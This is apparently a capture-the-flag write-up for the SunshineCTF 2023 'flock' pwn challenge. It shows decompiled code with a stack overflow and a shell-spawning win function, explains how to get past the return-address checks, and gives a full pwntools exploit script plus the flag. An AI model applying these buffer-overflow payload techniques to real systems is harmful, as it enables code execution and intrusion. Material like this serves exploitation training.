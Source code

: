 ```clike
{
  long in_stack_00000000;
  undefined local_88 [112];
  ssize_t local_18;
  undefined *local_10;
  
  local_10 = local_88;
  printf("<<< Song Begins At %p\n",local_10);
  printf("PwnMe >>> ");
  local_18 = read(0,local_88,500);
  if (in_stack_00000000 != 0x401276) {
    fail();
  }
  return;
}
void win(void)
{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
:::

The binary call from `main` -> `func1` -> `func2` -> `func3` -> `func4` -> `func5`. And there is an obvious stack overflow in func5. But in func2 to func5 it will check the return address is the last function. So we have to make sure the rbp and rbp+8 will not changed in the stack frame of func2 to func5 during we build the bof paylaod

Here is the exploit

:::spoiler solve.py
```python
from pwn import *
binary = "./flock"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chal.2023.sunshinectf.games", 23002)
# conn = process(binary)
# conn = gdb.debug(binary)

conn.recvuntil(b"Song Begins At")
leak = int(conn.recvline().strip()[2:], 16)

print(leak, hex(leak))

payload = b"A"*8*16 + p64(leak+0x80+0x20) + p64(0x00401276) 
payload += b"A"*8*2 + p64(leak+0x80+0x20*2) + p64(0x004012a0)
payload += b"A"*8*2 + p64(leak+0x80+0x20*3) + p64(0x004012ca)
payload += b"A"*8*2 + p64(leak+0x80+0x20*4) + p64(0x004012f0)
payload += b"A"*8 + p64(0x4010ef) + p64(0x004011b9) # nop, win
conn.sendlineafter(b"PwnMe >>> ", payload)
conn.interactive()
```
:::

`sun{here_then_there_then_everywhere}`